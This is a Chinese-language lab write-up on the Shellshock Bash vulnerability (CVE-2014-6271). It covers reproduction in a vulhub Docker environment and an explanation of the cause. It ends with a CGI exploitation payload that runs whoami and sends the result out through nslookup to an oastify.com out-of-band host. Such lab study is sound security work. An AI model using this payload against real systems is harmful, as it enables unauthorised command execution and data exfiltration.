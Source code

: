 #### 漏洞简介

> GNU Bash 4.3及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行Shell命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。此漏洞源于在调用Bash Shell之前可以用构造的值创建环境变量。这些变量可以包含代码，在Shell被调用后会被立即执行。
>
> 这个漏洞的英文是：**ShellShock**，中文名被XCERT命名为：破壳漏洞。
>
> 该漏洞在Red Hat、CentOS、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10中均拥有存在CVE-2014-6271（即“破壳”漏洞）漏洞的Bash版本，同时由于Bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用Bash的Unix、Linux、Mac OS X，而针对这些操作系统管理下的数据均存在高危威胁。
>
> 漏洞的利用方式会通过与Bash交互的多种应用展开，包括HTTP、OpenSSH、DHCP等

#### 漏洞复现

采用vulhub靶场，在bash目录下，进入CVE-2014-6271

![image-20241030142055623](./images/image-20241030142055623.png)

```shell
# 起服务
sudo docker-compose up -d
# 进入容器
sudo docker exec -it id /bin/bash
# 本地验证漏洞
env x='() { :;}; echo shellshocked' bash –c "echo hi"
```

输入下列内容说明漏洞存在

![image-20241030143148162](./images/image-20241030143148162.png)

在没有该漏洞的bash输入上述验证漏洞的命令，我们可以发现没有输出`shellshocker`字符串

![image-20241030143549708](./images/image-20241030143549708.png)

#### 原理

要理解漏洞原因，我们先理解我们验证漏洞的命令，`env`命令的作用用于查看和设置环境变量，但是和set的区别在于，当设置环境变量时，它常常和其他命令结合使用，设置的环境变量在后续命令的运行环境中，比如这里为`bash -c "echo hi"`设置了环境变量x。

在shell中，如果父进程中设置了一个函数a，子进程是无法访问到该函数的

![image-20241030150827509](./images/image-20241030150827509.png)

一种解决方法是如我们之前的命令，设置一个环境变量让子进程继承，子进程就可以调用该函数。

#### 利用场景

* 一些CGI程序的场景

```payload
# 外带命令
() { :; }; /usr/bin/nslookup $(whoami).n0ouqyl17ivva54cpmbecgq9z05rtshh.oastify.com
```

